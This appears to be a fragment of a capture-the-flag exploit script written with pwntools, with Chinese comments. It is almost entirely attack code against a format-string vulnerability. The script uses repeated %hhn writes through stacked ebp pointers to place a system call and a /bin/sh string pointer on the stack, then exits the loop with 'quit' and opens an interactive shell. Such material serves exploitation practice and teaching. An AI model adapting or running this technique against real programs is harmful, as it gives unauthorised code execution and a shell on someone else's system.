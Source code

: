 ```python

# 因为缓冲区没有清空，导致IO 乱的一比，下面数据全部加上后缀，接受到后缀后再发送新的数据
p = "%" + str(num+0x7) + "c" + "%6$hhnqwer"
r.sendline(p)
r.recvuntil('qwer')
p = "%" + str(0xf7) + "c" + "%10$hhnqwer"
r.sendline(p)
r.recvuntil('qwer')

log.success('system write done!!!!')

# 第一层ebp指向下一格
p = "%" + str(num+0x8) + "c" + "%6$hhnqwer"
r.sendline(p)
r.recvuntil('qwer')
#用第一层的ebp写值
#随便写，写个0001
p = "%" + str(1) + "c" + "%10$nqwer"
r.sendline(p)
r.recvuntil('qwer')


pause()
# 第一层ebp指向下一格
p = "%" + str(num+0x4*3) + "c" + "%6$hhnqwer"
r.sendline(p)
r.recvuntil('qwer')
#用第一层的ebp写值
#写/bin/sh bin_sh = 0xf7f5a1db
p = "%" + str(0xdb) + "c" + "%10$hhnqwer"
r.sendline(p)
r.recvuntil('qwer')
p = "%" + str(num+0x4*3+1) + "c" + "%6$hhnqwer"
r.sendline(p)
r.recvuntil('qwer')
p = "%" + str(0xa1) + "c" + "%10$hhnqwer"
r.sendline(p)
r.recvuntil('qwer')
p = "%" + str(num+0x4*3+2) + "c" + "%6$hhnqwer"
r.sendline(p)
r.recvuntil('qwer')
p = "%" + str(0xf5) + "c" + "%10$hhnqwer"
r.sendline(p)
r.recvuntil('qwer')
p = "%" + str(num+0x4*3+3) + "c" + "%6$hhnqwer"
r.sendline(p)
r.recvuntil('qwer')
p = "%" + str(0xf7) + "c" + "%10$hhnqwer"
r.sendline(p)
r.recvuntil('qwer')

log.success('/bin/sh write done!!!')

#把第一层ebp改回来
p = "%" + str(num) + "c" + "%6$hhnqwer"
r.sendline(p)
r.recvuntil('qwer')

r.sendline('quit')
r.interactive()
```
